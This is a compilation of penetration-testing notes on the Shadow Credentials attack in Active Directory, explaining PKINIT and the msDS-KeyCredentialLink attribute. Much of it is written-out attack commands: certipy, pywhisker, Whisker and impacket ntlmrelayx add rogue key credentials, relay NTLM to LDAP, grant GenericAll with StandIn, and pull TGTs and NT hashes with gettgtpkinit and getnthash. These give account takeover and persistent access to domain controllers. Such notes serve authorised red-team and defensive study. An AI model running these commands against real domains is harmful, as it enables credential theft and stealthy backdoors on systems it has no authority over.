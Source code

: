 

##
#
https://pentest.party/notes/ad/shadow-credentials
#
https://github.com/topotam/PetitPotam
#
https://github.com/ShutdownRepo/pywhisker
#
https://k4713.medium.com/k4713-on-shadow-credentials-attack-57474d84ef69
#
https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
#
https://www.truesec.com/hub/blog/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory
#
##

Shadow Credentials 
06.03.2024 · dadevel

It is possible to add Key Credentials to the msDS-KeyCredentialLink attribute of the target user or computer object and then perform Kerberos authentication as that account using PKINIT. source

Shadow Credentials require Windows Server 2016 domain functional level or higher.

Abuse GenericWrite on a user object (jdoeadm) to add a key credential and retrieve the certificate. Now you can authenticate as the user via PKINIT. If you got computer instead, you can impersonate a domain admin on that computer trough Delegate2Thyself / S4U2self.

certipy
Add a new key credential, authenticate via PKINIT, Unpac the Hash and remove the key credential in one go.

certipy shadow auto -u jdoe@corp.local -p 'passw0rd' -account jdoeadm
pywhisker
Clean up.

pywhisker
The device UUID is printed by the command above.

pywhisker -d corp.local -u jdoe -k --no-pass -t jdoeadm --action remove --device-id $uuid
certipy
NTLM relay to LDAP and open an interactive LDAP shell (source). When relaying a computer account the shadow target should be the SAM account name, e.g. ws01$.

impacket
Requires PR 1402.
```
impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --interactive --target ldaps://dc01.corp.local
$ nc -v 127.0.0.1 11000
# set_shadow_creds jdoeadm
# clear_shadow_creds jdoeadm
# exit
```
NTLM relay to LDAP. Requires manual cleanup.

impacket
```
impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --shadow-credentials --shadow-target jdoeadm --target ldaps://dc01.corp.local
```
Untested tools:

Whisker, written in C#

##
##

Shadow Credentials
Theory
The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). 
That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, 
making them vulnerable to ASREProast). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates).
The asymmetrical way of pre-authenticating is called PKINIT.

The client has a public-private key pair, and encrypts the pre-authentication data with their private key, and the KDC decrypts it with the client’s public key. The KDC also has a public-private key pair, allowing for the exchange of a session key. (specterops.io)

Active Directory user and computer objects have an attribute called msDS-KeyCredentialLink where raw public keys can be set. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

There are multiple scenarios where an attacker can have control over an account that has the ability to edit the msDS-KeyCredentialLink (a.k.a. "kcl") attribute of other objects (e.g. member of a special group, has powerful ACEs, etc.). This allows attackers to create a key pair, append to raw public key in the attribute, and obtain persistent and stealthy access to the target object (can be a user or a computer).

Practice
In order to exploit that technique, the attacker needs to:

be in a domain that supports PKINIT and containing at least one Domain Controller running Windows Server 2016 or above.

be in a domain where the Domain Controller(s) has its own key pair (for the session key exchange) (e.g. happens when AD CS is enabled or when a certificate authority (CA) is in place).

have control over an account that can edit the target object's msDs-KeyCredentialLink attribute.

The msDS-KeyCredentialLink feature was introduced with Windows Server 2016. However, this is not to be confused with PKINIT which was already present in Windows 2000. The msDS-KeyCredentialLink feature allows to link an X509 certificate to a domain object, that's all.

If those per-requisites are met, an attacker can

create an RSA key pair

create an X509 certificate configured with the public key

create a KeyCredential structure featuring the raw public key and add it to the msDs-KeyCredentialLink attribute

authenticate using PKINIT and the certificate and private key

UNIX-like
Windows
From UNIX-like systems, the msDs-KeyCredentialLink attribute of a user or computer target can be manipulated with the pyWhisker tool.

```
pywhisker.py -d "FQDN_DOMAIN" -u "USER" -p "PASSWORD" --target "TARGET_SAMNAME" --action "list"
```
The "add" action from pywhisker is featured in ntlmrelayx.

```
ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'
```
When the public key has been set in the msDs-KeyCredentialLink of the target, the certificate generated can be used with Pass-the-Certificate to obtain a TGT and further access.

Nota bene

User objects can't edit their own msDS-KeyCredentialLink attribute while computer objects can. 
This means the following scenario could work: trigger an NTLM authentication from DC01, 
relay it to DC02, make pywhisker edit DC01's attribute to create a Kerberos PKINIT pre-authentication backdoor on it, 
and have persistent access to DC01 with PKINIT and pass-the-cache.

Computer objects can only edit their own msDS-KeyCredentialLink attribute if KeyCredential is not set already.

Resources
https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
posts.specterops.io

##
##


Key Credentials Abuse
"...if you can write to the msDS-KeyCredentialLink property of a user, you can retrieve the NT hash of that user." (Elad Shamir, ref)

That makes GenericWrite on a user effectively equal to DCSync right on that user.

Remember that WriteDacl != GenericWrite, so in order to modify msDS-KeyCredentialLink, obtain necessary privileges first. For example, using StandIn:

```
Cmd > Rubeus.exe createnetonly /program:cmd.exe /show /ticket:tgt.kirbi
Cmd > StandIn.exe --domain megacorp.local --object "samaccountname=snovvcrash" --grant "MEGACORP\jdoe" --type GenericAll
DSInternals
https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md

Whisker
https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab

https://github.com/eladshamir/Whisker
```
List all the values of the the msDS-KeyCredentialLink attribute of a target object:

```
Cmd > .\Whisker.exe list /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local
Add a new value to the msDS-KeyCredentialLink attribute of a target object:

Cmd > .\Whisker.exe add /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /path:C:\Temp\cert.pfx /password:Passw0rd!
Remove a value from the msDS-KeyCredentialLink attribute of a target object:

Copy
Cmd > .\Whisker.exe remove /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /deviceid:00ff00ff-00ff-00ff-00ff-00ff00ff00ff
Clear all the values of the the msDS-KeyCredentialLink attribute of a target object:

Copy
Cmd > .\Whisker.exe clear /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local 
pywhisker
https://github.com/ShutdownRepo/pywhisker
```
https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/

```
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action add -f sqltest_cert
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action clear
$ python3 gettgtpkinit.py megacorp.local/sqltest -cert-pfx ~/tools/pywhisker/sqltest_cert.pfx -pfx-pass 3Dc3Er0rst2e9J1yRtjh sqltest.ccache
$ KRB5CCNAME=sqltest.ccache python3 getnthash.py megacorp.local/sqltest -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
